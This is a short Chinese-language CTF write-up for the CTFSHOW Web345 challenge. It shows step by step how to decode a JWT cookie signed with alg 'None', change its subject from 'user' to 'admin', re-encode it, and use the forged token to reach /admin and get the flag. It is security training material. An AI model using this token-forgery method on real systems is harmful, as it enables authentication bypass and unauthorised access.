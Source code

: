 # CTFSHOW Web345

首先打开题目,查看源码，接下来访问/admin被跳转回主页啥也没有发生

```
where is flag?
<!-- /admin -->
```

当然知道这个板块是JWT，自然而然我们看一眼Cookie，发现名为auth的一个cookie为

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoidXNlciJ9XQ
```

通过base64解密或者去jwt.io解码也行，得到结果

```
{"alg":"None","typ":"jwt"}[{"sub":"user"}]
```

所以我们尝试把sub对应的键值修改

```
{"alg":"None","typ":"jwt"}[{"sub":"admin"}]
```

把前面部分和后面部分分别base64-encode

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0
```

后面

```
W3sic3ViIjoiYWRtaW4ifV0=
```

把这两部分用**.**拼接去掉等于

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoiYWRtaW4ifV0
```

此时拿着这一串cookie去替换掉原来的值，之后访问`/admin`即可获取flag


